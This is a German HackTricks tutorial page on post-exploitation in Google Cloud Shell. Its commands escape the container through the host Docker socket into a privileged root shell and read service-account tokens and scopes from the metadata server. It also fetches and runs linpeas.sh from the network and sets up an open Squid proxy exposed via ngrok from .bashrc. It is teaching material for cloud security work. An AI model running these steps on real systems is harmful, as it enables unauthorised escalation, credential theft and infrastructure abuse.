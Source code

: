 # GCP - Cloud Shell Nach der Ausnutzung

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merchandise**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an** [**HackTricks**](https://github.com/carlospolop/hacktricks) **und** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **einreichen**
* &#x20;github Repos.

</details>

## Cloud Shell

Für weitere Informationen zu Cloud Shell siehe:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Container Escape

Beachten Sie, dass die Google Cloud Shell in einem Container läuft, Sie können **einfach zum Host entkommen**, indem Sie Folgendes tun:

{% code overflow="wrap" %}
```bash
sudo docker -H unix:///google/host/var/run/docker.sock pull alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock run -d -it --name escaper -v "/proc:/host/proc" -v "/sys:/host/sys" -v "/:/rootfs" --network=host --privileged=true --cap-add=ALL alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock start escaper
sudo docker -H unix:///google/host/var/run/docker.sock exec -it escaper /bin/sh
```
{% endcode %}

Dies wird von Google nicht als Sicherheitslücke betrachtet, gibt Ihnen jedoch einen umfassenderen Überblick darüber, was in dieser Umgebung passiert.

Darüber hinaus beachten Sie, dass Sie vom Host aus ein Dienstkontotoken finden können:

{% code overflow="wrap" %}
```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/"
default/
vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/
```
{% endcode %}

Mit den folgenden Berechtigungen:

{% code overflow="wrap" %}
```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/scopes"

https://www.googleapis.com/auth/devstorage.read_only
https://www.googleapis.com/auth/logging.write
https://www.googleapis.com/auth/monitoring.write
```
{% endcode %}

Metadaten mit LinPEAS auflisten:

{% code overflow="wrap" %}
```bash
cd /tmp
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
sh linpeas.sh -o cloud
```
{% endcode %}

Nach der Verwendung von [https://github.com/carlospolop/bf\_my\_gcp\_permissions](https://github.com/carlospolop/bf\_my\_gcp\_permissions) mit dem Token des Service-Kontos **wurde keine Berechtigung entdeckt**...

### Verwenden Sie es als Proxy

Wenn Sie Ihre Google Cloud Shell-Instanz als Proxy verwenden möchten, müssen Sie die folgenden Befehle ausführen (oder sie in die .bashrc-Datei einfügen):
```bash
sudo apt install -y squid
```
Nur zur Information: Squid ist ein HTTP-Proxy-Server. Erstellen Sie eine **squid.conf**-Datei mit den folgenden Einstellungen:
```bash
http_port 3128
cache_dir /var/cache/squid 100 16 256
acl all src 0.0.0.0/0
http_access allow all
```
Kopiere die **squid.conf** Datei nach **/etc/squid**
```bash
sudo cp squid.conf /etc/squid
```
Führen Sie schließlich den Squid-Dienst aus:
```bash
sudo service squid start
```
Verwenden Sie ngrok, um den Proxy von außen verfügbar zu machen:
```bash
./ngrok tcp 3128
```
Nach dem Ausführen kopieren Sie die tcp:// URL. Wenn Sie den Proxy aus einem Browser heraus ausführen möchten, wird empfohlen, den tcp:// Teil und den Port zu entfernen und den Port im Portfeld der Proxy-Einstellungen Ihres Browsers einzugeben (Squid ist ein HTTP-Proxyserver).

Für eine bessere Verwendung beim Start sollte die .bashrc-Datei die folgenden Zeilen enthalten:
```bash
sudo apt install -y squid
sudo cp squid.conf /etc/squid/
sudo service squid start
cd ngrok;./ngrok tcp 3128
```
Die Anweisungen wurden von [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key) kopiert. Überprüfen Sie diese Seite für weitere verrückte Ideen, um alle Arten von Software (Datenbanken und sogar Windows) in der Cloud Shell auszuführen.

{% hint style="success" %}
Lernen und üben Sie AWS-Hacking: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Lernen und üben Sie GCP-Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories senden.

</details>
{% endhint %}
